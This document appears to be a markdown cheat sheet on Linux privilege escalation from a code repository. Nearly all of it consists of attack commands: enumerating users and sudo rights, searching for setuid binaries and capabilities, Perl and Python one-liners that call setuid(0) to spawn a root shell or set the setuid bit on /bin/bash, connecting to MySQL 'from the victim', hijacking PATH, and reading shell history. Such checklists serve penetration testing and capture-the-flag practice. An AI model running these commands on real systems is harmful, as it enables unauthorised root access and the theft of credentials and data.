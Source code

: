 # Linux Priviledge Escalation

------------------------------------------------------

### Initial Commands
`whoami;id`

`cat /etc/passwd`

`sudo -l`


### Find Setuid enabled Programs
`find / -perm -u=s -type f 2>/dev/null`

### Capabilities search 
`getcap -r / 2>/dev/null`

### If perl or python have CAP_SETUID capabilities, run following commands and then execute the file(for python)

* Perl: 
`perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`

* Python:
`echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py`

### For MySql Service:
Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

### Other useful commands and tips

* `df` - to see free disk space of all mounted devices

* Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`

* `export PATH=/tmp:$PATH` 

* `cat ~/.bash_history`

* Always check the home and tmp directories.
 
